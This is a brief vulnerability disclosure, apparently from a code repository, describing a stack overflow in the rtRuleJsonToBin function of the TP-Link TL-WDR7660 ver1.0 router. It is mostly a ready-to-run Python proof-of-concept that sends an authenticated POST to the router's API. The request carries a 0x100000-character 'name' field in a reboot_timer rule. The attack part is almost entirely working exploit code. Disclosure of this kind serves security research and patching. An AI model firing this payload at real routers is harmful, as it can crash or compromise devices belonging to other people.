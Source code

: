 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The rtRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](../image/1.png)

**Exploit a vulnerability in the rtRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"reboot_timer":{"name":"a"*0x100000,"table":"reboot_timer_rule","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"test","reboot_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

![image](../image/2.png)

